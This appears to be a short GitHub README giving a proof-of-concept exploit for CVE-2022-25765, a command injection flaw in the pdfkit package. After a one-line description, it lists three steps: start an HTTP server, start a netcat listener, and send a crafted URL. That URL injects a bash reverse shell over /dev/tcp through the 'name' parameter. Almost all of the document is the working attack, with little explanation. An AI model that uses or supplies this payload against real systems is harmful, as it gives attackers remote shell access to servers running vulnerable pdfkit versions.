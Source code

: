 # PDFkit-CMD-Injection 

### CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



### PoC

### Start a HTTP server
<pre>
1- python3 -m http.server 80
</pre>
### Start a netcat listener
<pre>
2- nc -lnvp 'Target Port'
</pre>
### Make a request 
<pre>
3- http://"TARGET_ADDRESS:Target PORT"//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/"Target_ADRESS/LISTENING_PORT"<&1'`'}
</pre>
